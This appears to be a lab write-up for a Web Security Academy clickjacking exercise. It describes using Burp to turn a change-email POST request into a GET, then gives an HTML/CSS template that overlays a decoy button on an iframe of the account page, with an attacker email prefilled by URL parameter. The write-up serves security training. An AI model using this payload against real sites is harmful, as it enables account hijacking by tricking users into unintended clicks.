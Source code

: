 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`<style>

    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
    
</style>

<div> Test me </div>

<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
`




    

